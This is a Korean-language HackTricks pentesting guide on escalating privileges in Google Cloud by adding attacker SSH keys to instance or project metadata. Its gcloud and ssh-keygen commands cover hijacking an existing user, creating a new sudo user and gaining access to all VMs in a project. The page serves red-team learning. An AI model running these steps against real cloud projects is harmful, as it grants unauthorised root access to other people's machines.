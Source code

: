# GCP - 사용자 정의 SSH 메타데이터 추가

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

## 메타데이터 수정 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

인스턴스의 메타데이터 수정은 **공격자가 필요한 권한을 획들할 경우 중대한 보안 위험**으로 이어질 수 있습니다.

### **사용자 정의 메타데이터에 SSH 키 통합**

GCP에서 **Linux 시스템**은 종종 [Google Compute Engine을 위한 Python Linux 게스트 환경](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)에서 스크립트를 실행합니다. 이 작업의 중요한 구성 요소는 [계정 데몬](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)으로, 이는 **인스턴스 메타데이터 엔드포인트를 정기적으로 확인하여 인증된 SSH 공개 키에 대한 업데이트를 찾습니다**.

따라서 공격자가 사용자 정의 메타데이터를 수정할 수 있다면, 데몬이 새로운 공개 키를 찾아서 이를 **로컬 시스템에 통합**시킬 수 있습니다. 해당 키는 기존 사용자의 `~/.ssh/authorized_keys` 파일에 추가되거나 키의 형식에 따라 `sudo` 권한을 가진 새 사용자가 생성될 수 있습니다. 그리고 공격자는 호스트를 침해할 수 있게 됩니다.

### **기존 권한이 있는 사용자에게 SSH 키 추가**

1. **인스턴스의 기존 SSH 키 확인:**
- 인스턴스 및 해당 메타데이터를 설명하는 명령을 실행하여 기존 SSH 키를 찾습니다. 출력의 관련 섹션은 `metadata` 아래에 특히 `ssh-keys` 키 아래에 있을 것입니다.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSH 키의 형식에 주의하십시오: 사용자 이름은 콜론으로 구분된 키 앞에 옵니다.

2. **SSH 키 메타데이터용 텍스트 파일 준비:**
- 사용자 이름과 해당 SSH 키의 세부 정보를 `meta.txt`라는 텍스트 파일에 저장합니다. 이는 새 키를 추가하는 동안 기존 키를 보존하는 데 중요합니다.

3. **대상 사용자(`alice` 예시)를 위한 새 SSH 키 생성:**
- `ssh-keygen` 명령을 사용하여 새 SSH 키를 생성하고, 주석 필드(`-C`)가 대상 사용자 이름과 일치하는지 확인합니다.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- 인스턴스 메타데이터에서 발견된 형식을 모방하여 새 공개 키를 `meta.txt`에 추가합니다.

4. **인스턴스의 SSH 키 메타데이터 업데이트:**
- `gcloud compute instances add-metadata` 명령을 사용하여 인스턴스에 업데이트된 SSH 키 메타데이터를 적용합니다.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **새 SSH 키를 사용하여 인스턴스에 액세스:**
- 새 키를 사용하여 SSH로 인스턴스에 연결하여 대상 사용자(`alice` 예시)의 쉘에 액세스합니다.
```bash
ssh -i ./key alice@localhost
sudo id
```

### **새로운 권한이 있는 사용자 생성 및 SSH 키 추가**

흥미로운 사용자를 찾을 수 없는 경우, `sudo` 권한이 부여된 새 사용자를 생성하는 것이 가능합니다.
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 프로젝트 수준의 SSH 키 <a href="#sshing-around" id="sshing-around"></a>

**프로젝트 수준에 SSH 키를 적용**하여 클라우드 환경의 여러 가상 머신(VM)에 대한 SSH 액세스 범위를 확대할 수 있습니다. 이 접근 방식은 프로젝트 내에서 명시적으로 프로젝트 전체 SSH 키를 차단하지 않은 경우 프로젝트 내의 모든 인스턴스에 SSH 액세스를 허용합니다. 다음은 요약된 가이드입니다:

1. **프로젝트 수준에 SSH 키 적용:**
- `gcloud compute project-info add-metadata` 명령을 사용하여 `meta.txt`에서 SSH 키를 프로젝트 메타데이터에 추가합니다. 이 작업을 통해 SSH 키가 프로젝트 내의 모든 VM에서 인식되도록합니다. 단, VM이 "프로젝트 전체 SSH 키 차단" 옵션을 활성화하지 않은 경우입니다.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **프로젝트 전체 키를 사용하여 인스턴스에 SSH:**
- 프로젝트 전체 SSH 키가 설정되어 있으면 프로젝트 내의 모든 인스턴스에 SSH할 수 있습니다. 프로젝트 전체 키를 차단하지 않은 인스턴스는 SSH 키를 수락하여 액세스를 허용합니다.
- 인스턴스에 직접 SSH하는 방법은 `gcloud compute ssh [INSTANCE]` 명령을 사용하는 것입니다. 이 명령은 현재 사용자 이름과 프로젝트 수준에서 설정된 SSH 키를 사용하여 액세스를 시도합니다.


# 참고 자료
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
